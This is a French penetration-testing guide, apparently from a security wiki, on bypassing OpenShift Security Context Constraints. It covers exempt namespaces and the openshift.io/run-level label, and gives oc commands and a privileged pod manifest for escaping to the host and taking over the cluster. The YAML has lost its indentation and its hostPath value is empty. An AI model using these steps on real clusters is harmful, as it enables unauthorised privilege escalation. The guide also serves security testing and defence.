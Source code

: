 # Openshift - Contournement de SCC

**L'auteur original de cette page est** [**Guillaume**](https://www.linkedin.com/in/guillaume-c-ab4b9a196/en)

## Espaces de noms privilégiés

Par défaut, SCC ne s'applique pas aux projets suivants :

* **default**
* **kube-system**
* **kube-public**
* **openshift-node**
* **openshift-infra**
* **openshift**

Si vous déployez des pods dans l'un de ces espaces de noms, aucun SCC ne sera appliqué, permettant le déploiement de pods privilégiés ou le montage du système de fichiers hôte.

## Étiquette d'espace de noms

Il existe un moyen de désactiver l'application SCC sur votre pod selon la documentation de RedHat. Vous devrez avoir au moins l'une des autorisations suivantes :

* Créer un espace de noms et créer un pod dans cet espace de noms
* Modifier un espace de noms et créer un pod dans cet espace de noms
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Le label spécifique `openshift.io/run-level` permet aux utilisateurs de contourner les SCC pour les applications. Selon la documentation de RedHat, lorsque ce label est utilisé, aucun SCC n'est appliqué à tous les pods de cet espace de noms, supprimant ainsi efficacement toutes les restrictions.

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Ajouter un Label

Pour ajouter le label dans votre espace de noms :
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Pour créer un espace de noms avec l'étiquette via un fichier YAML :
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Maintenant, tous les nouveaux pods créés dans l'espace de noms ne doivent pas avoir de SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

En l'absence de SCC, il n'y a aucune restriction sur la définition de votre pod. Cela signifie qu'un pod malveillant peut être facilement créé pour s'échapper sur le système hôte.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Maintenant, il est devenu plus facile d'escalader les privilèges pour accéder au système hôte et prendre ensuite le contrôle de l'ensemble du cluster, en obtenant des privilèges de 'cluster-admin'. Recherchez la partie **Post-exploitation du nœud** sur la page suivante :

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### Étiquettes personnalisées

De plus, en fonction de la configuration ciblée, certaines étiquettes / annotations personnalisées peuvent être utilisées de la même manière que dans le scénario d'attaque précédent. Même si ce n'est pas prévu, les étiquettes pourraient être utilisées pour accorder des autorisations, restreindre ou non un certain accès à une ressource spécifique.

Essayez de rechercher des étiquettes personnalisées si vous pouvez lire certaines ressources. Voici une liste de ressources intéressantes :

* Pod
* Déploiement
* Espace de noms (Namespace)
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Liste de tous les espaces de noms privilégiés
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Exploitation avancée

Dans OpenShift, comme démontré précédemment, avoir la permission de déployer un pod dans un espace de noms avec l'étiquette `openshift.io/run-level` peut conduire à une prise de contrôle directe du cluster. Du point de vue des paramètres du cluster, cette fonctionnalité **ne peut pas être désactivée**, car elle est inhérente à la conception d'OpenShift.

Cependant, des mesures d'atténuation telles que **Open Policy Agent GateKeeper** peuvent empêcher les utilisateurs de définir cette étiquette.

Pour contourner les règles de GateKeeper et définir cette étiquette pour exécuter une prise de contrôle du cluster, **les attaquants devraient identifier des méthodes alternatives.**

## Références

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
